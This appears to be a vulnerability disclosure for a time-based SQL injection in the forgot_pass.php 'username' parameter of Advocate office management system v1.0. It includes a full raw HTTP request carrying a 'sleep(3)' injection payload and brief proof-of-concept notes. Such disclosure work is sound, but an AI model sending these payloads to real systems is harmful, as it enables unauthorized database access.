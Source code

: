 # Advocate office management system forgot_pass.php time-based SQL Injection Vulnerability

* **Exploit Title**: Advocate office management system forgot_pass.php time-based SQL Injection Vulnerability
* **Exploit Author**: webraybtl@webray.com.cn inc
* **Vendor Homepage**: https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html
* **Software Link**: https://www.sourcecodester.com/download-code?nid=17280&title=Advocate+office+management+system+free+download
* **Version**: Advocate office management system v1.0
* **Tested on:**  PHP 7.4.33, OpenResty1.21.4.3-3-3-focal
* **CVE:**  Reported, waiting for CVE number.

## Description

Advocate office management system forgot_pass.php `username`​ parameter has a time-based SQL injection Vulnerability.

#### Payload used

```plaintext
POST /control/forgot_pass.php HTTP/1.1
Host: 192.168.56.128:8080
Cache-Control: no-cache
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=c44ka87dik7dcvd007quilufp2
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------1199069480114683088346892146
Referer: http://192.168.56.128:8080/control/login.php
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Priority: u=0, i
Pragma: no-cache
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Upgrade-Insecure-Requests: 1
Content-Length: 420

-----------------------------1199069480114683088346892146
Content-Disposition: form-data; name="username"

mayuri.infospace@gmail.com'and sleep(3) -- '
-----------------------------1199069480114683088346892146
Content-Disposition: form-data; name="verify"

verify
-----------------------------1199069480114683088346892146--

```

## Proof of Concept

* Construct the post request package and send it to the forgot_pass.php. Successfully saw that the response time was delayed by the specified number of seconds.

​![forgot_pass](assets/forgot_pass-20240923180742-vl6xaty.gif)​

* Upon reviewing the source code, it was discovered that the `username`​ parameter was directly concatenated into the SQL statement.

​![image](assets/image-20240923180829-tty16i8.png)​
